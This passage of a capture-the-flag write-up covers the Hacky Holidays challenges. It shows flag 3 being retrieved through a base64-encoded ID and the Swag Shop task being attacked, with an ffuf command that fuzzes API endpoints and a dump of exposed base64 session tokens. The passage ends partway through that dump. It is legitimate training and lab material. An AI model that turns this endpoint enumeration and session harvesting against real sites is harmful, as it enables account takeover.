 Let's try to get the entry with the ID 1:

```
$ echo -n '{"id":1}' | base64 -w0
eyJpZCI6MX0=
```

Issuing the following `GET` request returns an entry for the grinch. Of course, the grinch gave himself a good rating, it's hard to stay objective when talking about oneself, isn't it? But more importantly, flag 3, `flag{b705fb11-fb55-442f-847f-0931be82ed9a}`, gets displayed as well:

{F1138930}

## Flag 4 - Swag Shop

**App description**: "Get your Grinch Merch! Try and find a way to pull the Grinch's personal details from the online shop."

When visiting the swag shop site, 3 articles are displayed: one can buy an `I Hate Xmas Hoodie`, an `Xmas Sucks Cap` or a `Snow Ball Launcher`, obviously items the grinch himself would buy immediately. However, when clicking on the `Purchase` button below an item, a login promt gets displayed, it is not possible to buy anything if one does not have a swag shop account.

As there were no other options on the site, I took a look at the traffic in BurpSuite:

{F1138931}

Trying to purchase an item triggered requests to some endpoints under `/swagshop/api`: `login`, `purchase` and `stock`. Trying to manipulate the parameters did not give any useful results, therefore, I decided to fuzz the endpoints under `/swag-shop/api`. After using some small wordlists without success, finally, two additional endpoints were discovered:

```
$ ffuf -w /usr/share/seclists/Discovery/Web-Content/api/objects.txt -u https://hackyholidays.h1ctf.com/swag-shop/api/FUZZ -mc all -fc 404 -t 4
[SNIP]
sessions                [Status: 200, Size: 2194, Words: 1, Lines: 1]
user                    [Status: 400, Size: 35, Words: 3, Lines: 1]
:: Progress: [3132/3132] :: Job [1/1] :: 23 req/sec :: Duration: [0:02:13] :: Errors: 0 ::
```

The `sessions` endpoint looks interesting because it returned the status code 200 and quite a large response. Indeed, when issuing a `GET` request to `/swag-shop/api/sessions`, a list of sessions got returned!

```
{
  "sessions": [
    "eyJ1c2VyIjpudWxsLCJjb29raWUiOiJZelZtTlRKaVlUTmtPV0ZsWVRZMllqQTFaVFkxTkRCbE5tSTBZbVpqTW1ObVpHWXpNemcxTVdKa1pEY3lNelkwWlRGbFlqZG1ORFkzTkRrek56SXdNR05pWmpOaE1qUTNZMlJtWTJFMk4yRm1NemRqTTJJMFpXTmxaVFZrTTJWa056VTNNVFV3WWpka1l6a3lOV0k0WTJJM1pXWmlOamsyTjJOak9UazBNalU9In0=",
    "eyJ1c2VyIjpudWxsLCJjb29raWUiOiJaak0yTXpOak0ySmtaR1V5TXpWbU1tWTJaamN4TmpkbE5ETm1aalF3WlRsbVkyUmhOall4TldNNVkyWTFaalkyT0RVM05qa3hNVFEyTnprMFptSXhPV1poTjJaaFpqZzBZMkU1TnprMU5UUTJNek16WlRjME1XSmxNelZoWkRBME1EVXdZbVEzTkRsbVpURTRNbU5rTWpNeE16VTBNV1JsTVRKaE5XWXpPR1E9In0=",
    "eyJ1c2VyIjoiQzdEQ0NFLTBFMERBQi1CMjAyMjYtRkM5MkVBLTFCOTA0MyIsImNvb2tpZSI6Ik5EVTBPREk1TW1ZM1pEWTJNalJpTVdFME1tWTNOR1F4TVdFME9ETXhNemcyTUdFMVlXUmhNVGMwWWpoa1lXRTNNelUxTWpaak5EZzVNRFEyWTJKaFlqWTNZVEZoWTJRM1lqQm1ZVGs0TjJRNVpXUTVNV1E1T1dGa05XRTJNakl5Wm1aak16WmpNRFEzT0RrNVptSTRaalpqT1dVME9HSmhNakl3Tm1Wa01UWT0ifQ==",
    "eyJ1c2VyIjpudWxsLCJjb29raWUiOiJNRFJtWVRCaE4yRmlOalk1TUdGbE9XRm1ZVEU0WmpFMk4ySmpabVl6WldKa09UUmxPR1l3TWpJMU9HSXlOak0xT0RVME5qYzJZVGRsWlRNNE16RmlNMkkxTVRVek16VmlNakZoWXpWa01UYzRPREUzT0dNNFkySmxPVGs0TWpKbE1ESTJZalF6WkRReE1HTm1OVGcxT0RReFpqQm1PREJtWldReFptRTFZbUU9In0=",
    "eyJ1c2VyIjpudWxsLCJjb29raWUiOiJNMlEyTURJek5EZzVNV0UwTjJNM05ESm1OVEl5TkdNM05XVXhZV1EwTkRSbFpXSTNNVGc0TWpJM1pHUmtNVGxsWlRNMlpEa3hNR1ZsTldFd05tWmlaV0ZrWmpaaE9EZzRNRFkzT0RsbVpHUmhZVE0xWTJJeU1HVmhNakExTmpkaU5ERmpZekJoTVdRNE5EVTFNRGM0TkRFMVltSTVZVEpqT0RCa01qRm1OMlk9In0=",
    "eyJ1c2VyIjpudWxsLCJjb29raWUiOiJNV1kzTVRBek1UQmpaR1k0WkdNd1lqSTNaamsyWm1Zek1XSmxNV0V5WlRnMVl6RTBNbVpsWmpNd1ltSmpabVE0WlRVMFkyWXhZelZtWlRNMU4yUTFPRFkyWWpGa1ptRmlObUk1WmpJMU0yTTJNRFZpTmpBMFpqRmpORFZrTlRRNE4yVTJPRGRpTlRKbE1tRmlNVEV4T0RBNE1qVTJNemt4WldOaE5qRmtObVU9In0=",
```